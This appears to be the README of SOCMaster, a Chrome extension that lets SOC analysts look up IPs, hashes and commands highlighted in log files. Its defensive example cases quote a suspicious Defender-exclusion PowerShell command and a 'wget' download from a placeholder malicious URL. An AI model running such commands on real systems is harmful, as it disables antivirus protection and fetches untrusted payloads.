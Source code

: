 # Identify IPs, domains, hashes, operating system commands with one click without leaving your browser tab.

SOCMaster can allow security analysts, system administrators, or incident responders to quickly look up artifacts on their SIEM or any web application containing log files. This tool may reduce triage and investigation times as well as headaches from manually searching IP addresses or operating system commands that require multiple tabs to keep track of.

## How to use

1. Highlight an artifact and Rightclick
2. Select "SOCMaster"
3. Click one of the options available
4. Menu will appear on lower right side containing information about the artifacts

## Configuration

To query IP, Domain, and Hash using vendor API keys, the API key is required. Follow the steps:

1. Click Extensions icon in Google Chrome's upper right menu
2. Click "SOCMaster" > Settings
3. On the settings page, on the upper right corner click "Add API key"
4. On intel source selection, select API key vendor
5. Paste Vendor API key on the field
6. Click save
7. API key now added, IP/Domain/Hash scan using vendor API keys can now be used

## Example use case:

* Suspicious PowerShell logs show: Set-MpPreference -ExclusionPath "C:\users\public\documents\sucmra"  

A user can highlight and select the "Find command information" option and will be able to view the syntax and parameters of the command.  

* Suspicious IP address from the firewall logs: 1.2.3.4  
  
A user can highlight and select the "IP scan using vendor API keys" option and will be able to view IP reputation and data from vendors.  

* Suspicious linux command show wget http://malicious_url -O  
  
A user can highlight and select the "Find command information" option and will be able to view the syntax and parameters of the command.  

* A system administrator forgot the parameters for the creating a new AD user using New-ADUser cmdlet  

The administrator can highlight and select the "Find command information" option and will be able to view the syntax and parameters of the command.  

# Credits

This chrome extension uses following websites as reference data:

[https://lolbas-project.github.io/  
https://gtfobins.github.io/  
https://ss64.com/  
https://man7.org/  
https://linux.die.net/  
https://learn.microsoft.com/en-us/powershell/module/  
https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands  
](https://lolbas-project.github.io/  
https://gtfobins.github.io/  
https://ss64.com/  
https://man7.org/  
https://linux.die.net/  
https://learn.microsoft.com/en-us/powershell/module/  
https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands  
https://www.file.net  
https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/  

Michael Hingpit for help with UI  
